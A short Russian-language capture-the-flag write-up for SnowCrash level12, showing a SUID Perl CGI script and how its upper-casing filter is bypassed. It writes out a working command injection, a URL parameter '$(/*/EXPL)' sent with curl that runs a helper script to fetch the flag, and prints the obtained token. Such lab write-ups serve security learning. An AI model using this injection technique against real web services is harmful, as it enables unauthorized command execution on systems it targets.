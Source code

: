 level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

 На файле стоит SUID, а значит он должен выполнить getflag


level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$

По коду скрипта понятно, что нужно выполнить запрос с параметрами
Вся хитрость заключается в операторах perl
$xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;

Все символы первого аргумента переводятся в верхний регистр, поэтому все что нам нужно сделать это
запустить скрипт, который сможет запустится после всех преобразований

level12@SnowCrash:~$ vim /tmp/EXPL
level12@SnowCrash:~$ cat /tmp/EXPL
#!/bin/bash

/bin/getflag > /tmp/tok
level12@SnowCrash:~$

level12@SnowCrash:~$ curl localhost:4646?x='$(/*/EXPL)'
..level12@SnowCrash:~$ cat /tmp/tok
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
